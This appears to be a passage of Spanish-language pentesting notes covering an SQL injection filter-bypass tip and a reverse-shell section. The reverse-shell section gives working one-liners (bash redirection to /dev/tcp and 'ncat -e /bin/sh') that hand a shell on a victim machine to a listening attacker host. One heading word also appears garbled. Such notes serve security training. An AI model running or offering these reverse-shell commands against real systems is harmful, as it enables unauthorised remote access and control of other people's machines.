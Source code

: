 ### Otros
~~~sql
SQL injection with filter bypass via XML encoding
+  Extensions > Hackvertor > Encode > hex_entities
~~~

## Más información
+ https://portswigger.net/web-security/sql-injection/cheat-sheet


************************************************************************************************
# sqlmap

~~~bash


~~~

************************************************************************************************
# Reverse Shell & Webshell
## Linux

### Reverse shell con bash
~~~bash
# En la máquina del ausuario.servidorante
nc -lp 9999

# En la máquina de la victima
# Cambiar IP & PORT
# bash -i >& /dev/tcp/IP/PORT 0>&1
bash -i >& /dev/tcp/172.16.16.10/9999 0>&1
bash -i >& /dev/tcp/127.0.0.1/5000 0>&1
~~~

### Reverse shell con Netcat
~~~bash
# Requiere ncat
sudo apt install ncat

# En la máquina del ausuario.servidorante
ncat -lp 1234

# En la máquina de la victima
# Requiere: apt install ncat (Especificamente este paquete para la opción -e)
# Cambiar IP & PORT
# nc -e /bin/sh IP PORT
ncat -e /bin/sh 10.0.0.1 1234
~~~
